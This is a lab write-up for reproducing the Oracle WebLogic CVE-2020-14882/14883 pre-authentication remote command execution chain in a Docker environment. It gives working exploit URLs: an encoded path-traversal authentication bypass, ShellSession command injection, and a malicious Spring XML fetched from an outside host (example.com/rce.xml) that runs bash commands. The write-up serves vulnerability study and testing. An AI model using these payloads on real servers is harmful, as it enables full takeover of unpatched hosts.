

Weblogic Pre-Auth Remote Command Execution (CVE-2020-14882, CVE-2020-14883)¶
Oracle WebLogic Server is the industry leading application server for building enterprise applications using Java EE standards, and deploying them on a reliable, scalable runtime with low cost of ownership.
In Oracle Critical Patch Update Advisory - October 2020, Oracle fixed two security vulnerabilities submitted by security researcher @Voidfyoo from Chaitin Tech, CVE-2020-14882 and CVE-2020-14883.
CVE-2020-14882 allows remote users to bypass the authentication in administrator console component, and CVE-2020-14883 allows authencated user to execute any command on administrator console component. Using a chain of these two vulnerabilities, unauthenticated remote attacker can execute arbitrary commands on the Oracle WebLogic server over HTTP and take complete control of the host.
References:
- https://www.oracle.com/security-alerts/cpuoct2020traditional.html
- https://testbnull.medium.com/weblogic-rce-by-only-one-get-request-cve-2020-14882-analysis-6e4b09981dbf
Environment Setup¶
Start a Weblogic server 12.2.1.3 by executing the following command:
docker compose up -d
After the startup is complete, visit http://your-ip:7001/console to view the administrator console login page.
Exploit¶
Using this URL to bypass the authentication of Console component:
http://your-ip:7001/console/css/%252e%252e%252fconsole.portal

At this moment, you don't have permission to upload a webshell:

The second vulnerability, CVE-2020-14883, there are two ways to exploit, one is through com.tangosol.coherence.mvel2.sh.ShellSession, and the other is through com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext.
Visit the following URL to chain 2 vulnerabilities and execute commands from com.tangosol.coherence.mvel2.sh.ShellSession:
http://your-ip:7001/console/css/%252e%252e%252fconsole.portal?_nfpb=true&_pageLabel=&handle=com.tangosol.coherence.mvel2.sh.ShellSession("java.lang.Runtime.getRuntime().exec('touch%20/tmp/success1');")
touch /tmp/success1 has been successfully executed inside the container:

This method of exploit can only be used in Weblogic 12.2.1 and above, because 10.3.6 doesn't have the class com.tangosol.coherence.mvel2.sh.ShellSession.
com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext is a more common exploit, which was first introduced in CVE-2019-2725 and is useable for any Weblogic versions.
To exploit the FileSystemXmlApplicationContext, you need to make a crafted XML file and serve it on a server that Weblogic can access, such as http://example.com/rce.xml:
<?xml version="1.0" encoding="UTF-8" ?>
<beans xmlns="http://www.springframework.org/schema/beans"
xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
<bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
<constructor-arg>
<list>
<value>bash</value>
<value>-c</value>
<value><![CDATA[touch /tmp/success2]]></value>
</list>
</constructor-arg>
</bean>
</beans>
Then through the following URL, Weblogic would load this XML and execute the commands in it:
http://your-ip:7001/console/css/%252e%252e%252fconsole.portal?_nfpb=true&_pageLabel=&handle=com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext("http://example.com/rce.xml")

The shortcomings of this exploit is that, it requires the Weblogic server to be able to access the malicious XML.